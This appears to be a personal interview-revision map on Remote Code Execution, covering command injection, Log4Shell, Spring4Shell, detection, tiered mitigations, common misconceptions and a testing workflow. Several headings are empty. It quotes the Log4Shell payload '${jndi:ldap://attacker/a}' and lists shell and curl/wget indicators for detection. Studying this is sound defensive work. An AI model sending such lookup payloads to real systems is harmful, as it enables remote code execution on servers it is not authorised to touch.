

# Remote Code Execution (RCE) revision map

I keep this Remote Code Execution (RCE) map for the night before a screen, when five markdown files is too many clicks. Built from Critical Clarification Remote Code Execution Misconceptions.md, Remote Code Execution (RCE) - Comprehensive Guide.md, Remote Code Execution (RCE) - Interview Questions & Answers.md, Remote Code Execution (RCE) - Quick Reference.md, Remote Code Execution (RCE) - VAPT Methodology.md. Twenty minutes. Then I close the laptop.

## L1 - What counts as RCE?
- RCE: Attacker supplies input that becomes code execution in the victim process (language VM, shell, template engine, expression evaluator, or native code via memory corruption).
- Not always RCE: SQLi that only reads data; XSS in browser (different trust boundary)-unless interviewer says "RCE on admin's browser" via deserialization in a browser context (rare framing).

## L2 - Primary vectors (interview taxonomy)

## L2 - Minimal vulnerable vs safe patterns

### Command injection (Python - illustrative)
- Safer: Use subprocess.run with argument list, no shell, fixed binary path; validate allowlisted flags only.

### Java JNDI / Log4j class of issues (pattern)
- Untrusted data triggers a lookup to an attacker server -> loads attacker-controlled class. Fix: patch runtime, disable remote JNDI/class loading, network egress restrictions.

## Named examples (verify versions in real incidents)
- Use vendor advisories and NVD for exact CVE metadata when preparing employer-specific loops.

## L2 - CVE walkthrough: Log4Shell (architecture-level)
- Flow: Attacker sends ${jndi:ldap://attacker/a} in a field that gets logged -> Log4j lookup resolves JNDI -> attacker-controlled LDAP returns Reference with factory -> JVM loads remote class -> RCE.
- Containment (first 24h): WAF rules (temporary), disable lookups (log4j2.formatMsgNoLookups), patch to fixed versions, hunt outbound LDAP/RMI/DNS from app subnets, rotate secrets on affected hosts.

## L2 - CVE walkthrough: Spring4Shell (pattern)
- Pattern: Attacker manipulates request parameters bound to Java objects to reach ClassLoader / access rules on vulnerable Spring + JDK combinations.
- Fix: Patch Spring; WAF secondary; reduce exposed actuator endpoints; principle of least privilege on app process.

## L2 - Additional language sinks

### Node.js
- See the source section `Node.js` for the worked example.

### Java
- See the source section `Java` for the worked example.

### Go
- See the source section `Go` for the worked example.

## L2 - Tooling interviewers expect

## L3 - Detection
- Logs: unexpected child processes, /bin/sh, curl/wget from app user.
- EDR / Falco: shell spawned by java, node, ruby.
- Static analysis: Semgrep rules for exec, eval, pickle.loads, ObjectInputStream, yaml.load unsafe patterns.
- Dependencies: SCA (Snyk, Dependabot, OSV) for known RCE CVEs.

## L3 - Mitigations (tiered)
- Eliminate shell: Never pass user data to a shell; argv arrays only.
- No eval on untrusted input.
- Deserialization: sign payloads, use JSON + DTOs, avoid native binary formats from users.
- Templates: logic-less templates or strict sandboxes.
- Patch dependencies fast on RCE CVEs; SBOM + automated PRs.
- Runtime: non-root containers, read-only rootfs, seccomp/AppArmor, egress deny-by-default.
- Secrets: assume exfil after RCE-rotate, short-lived credentials.

## L3 - Why "we have a WAF" fails interviews
- WAFs miss deserialization, file bugs, internal admin plugins, and novel gadgets. Depth: code + dependency + runtime hardening.

## Hands-on (authorized labs)
- DVWA / WebGoat command injection modules.
- PortSwigger SSTI / deserialization labs.
- Local Log4j test harness in an isolated VM (lab only).

## L4 - Interview clusters

### Junior
- Define RCE; difference from SQLi reading data.

### Mid
- Safe subprocess pattern; why shell=True is toxic.

### Senior
- Container breakout vs app RCE-what limits impact?
- Log4j response in first 24 hours (contain, patch, hunt, rotate).

### Staff
- Org-wide control: default-deny egress, Falco alerts, SLSA / provenance for artifacts.

## Authoritative references
- CWE-78 (OS command injection), CWE-94 (code injection), CWE-502 (unsafe deserialization)
- OWASP cheat sheets: Injection, Deserialization
- NIST SSDF themes for patch and build security

## Cross-links
- Insecure Deserialization
- Server-Side Template Injection (SSTI)/)
- File Upload Security
- Software Supply Chain Security
- Production Security Incident Response
- Exploit Development (mitigation-aware depth)

## Verification checklist
- [ ] Explain three distinct paths to RCE without saying "injection" only once.
- [ ] Whiteboard safe vs unsafe subprocess.
- [ ] Walk Log4j at architecture level (lookup -> load -> code).
- [ ] List four container hardening controls that limit post-RCE.

## Cheat sheet bits

## Definition
- Attacker causes your server/worker to run attacker-controlled code or OS commands.

## Major vectors

## CWEs (quick)
- CWE-78 - OS command injection
- CWE-94 - code injection
- CWE-502 - unsafe deserialization

## Safe patterns
- subprocess: list argv, shell=False, fixed binary path
- No eval on untrusted data
- JSON + schema instead of native binary deserialization
- Patch RCE CVEs same-day class; SBOM + automation

## Containment (IR)
- Contain -> patch/redeploy -> rotate secrets -> hunt persistence -> improve detection

## Runtime hardening
- Non-root · read-only rootfs · seccomp/AppArmor · default-deny egress · minimal image

## Tools
- Semgrep · CodeQL · Bandit · OSV/Dependabot · Falco

## Cross-read
- Insecure Deserialization · SSTI · File Upload · Supply Chain · Container Security

## 30-second pitch

## Traps that dump interviews

## "RCE always means root on the box."
- Reality: You get whatever the process user can do-often app or www-data. Container + non-root + read-only FS limits but does not make RCE "low." Attackers still exfil secrets, hit metadata, or pivot.

## "WAF blocks RCE."
- Reality: WAF may catch obvious ; rm payloads; it won't stop deserialization gadgets, file-format bugs, or encrypted traffic to legit endpoints. Code and dependency fixes are primary.

## "We don't use eval, so no RCE."
- Reality: pickle, yaml.load, template engines, ObjectInputStream, ImageMagick delegates, OGNL/SpEL-none need eval in your source.

## "Patching the library closes the incident."
- Reality: Assume breach: rotate credentials the process could read, scan for webshells and cron, review egress logs, verify backup integrity.

## "Containers make RCE safe."
- Reality: Containers shrink blast radius vs bare metal but share kernel; misconfigured cap_sys_admin, socket mounts, or weak network policies still allow serious harm.

## "Only internet-facing apps matter."
- Reality: Internal services often hold more trust and weaker auth-SSRF or compromised laptop can reach them. Zero trust assumes RCE anywhere is possible.

## "Static scan clean == no RCE."
- Reality: TPL / config / runtime plugins and dynamic code paths evade SAST; DAST + dependency + manual review still required.

## "Severity is always Critical 10/10."
- Reality: CVSS context: scope, privileges, exploitability, data at risk. Still usually top of backlog-but communicate nuance to leadership.

## Consolidated note
- Older generic "interview tips only" bullets are superseded by topic-specific content above; mechanism + IR + supply chain win interviews.

## How I would test it

## Objective
- Create a repeatable assessment workflow for Remote Code Execution (RCE) that produces reproducible evidence and actionable remediation guidance.

## Phase 1 - Scope and preparation
- Confirm in-scope assets, test windows, and prohibited actions.
- Identify critical user journeys and trust boundaries.
- Define severity rubric and evidence requirements before testing.

## Phase 2 - Recon and attack-surface mapping
- Enumerate relevant endpoints, flows, and data paths.
- Document where security checks are expected to happen.
- Mark high-value assets and high-impact paths.

## Phase 3 - Hypothesis-driven testing
- Start with low-risk probes and baseline behavior.
- Test failure hypotheses systematically (one variable at a time).
- Capture request/response artifacts for each finding candidate.

## Phase 4 - Validation and impact proof
- Reproduce findings with clean-state retests.
- Confirm exploitability and practical impact.
- Eliminate false positives; record confidence level.

## Phase 5 - Remediation and verification
- Provide immediate containment + structural fix recommendations.
- Define post-fix verification tests and telemetry checks.
- Re-test after remediation and close with evidence.

## Evidence template
- Asset / endpoint:
- Preconditions:
- Reproduction steps:
- Observed behavior:
- Security impact:
- Business impact:
- Recommended fix:
- Verification result:

## Interview drill
- In 3 minutes, explain how you would run this VAPT workflow for one production-like service and what evidence you need before escalating severity.

## Prompts I drill out loud

- Q: Name four different technical causes of RCE.
- Q: RCE vs arbitrary file read vs SSRF?
- Defense engineering
- Q: How do you call ImageMagick or ffmpeg safely from a web app?
- Q: How do you defend against deserialization RCE in Java?
- Q: First three actions when RCE is confirmed in prod?
- Q: How do you prioritize "auth bypass" vs "RCE"?
- Q: Log4j in three sentences.
- Depth: Interview follow-ups

## 60-second answer

## Taxonomy

## Incident response

### Q: How do you prioritize "auth bypass" vs "RCE"?
- A: RCE usually wins on urgency because blast radius and trust collapse-but auth bypass on admin can be equal. Use exploitability, exposure, data sensitivity, and existing controls.

## Supply chain

## Mock ladder
- Target: 7-8/8 on accuracy, depth, practicality, verification.

## Sibling folders

- Stay inside this folder for the long guide. Jump only when a section names a sibling topic.
- Cookie Security, CSRF, XSS, JWT, OAuth, and TLS show up as neighbors on a lot of these maps.
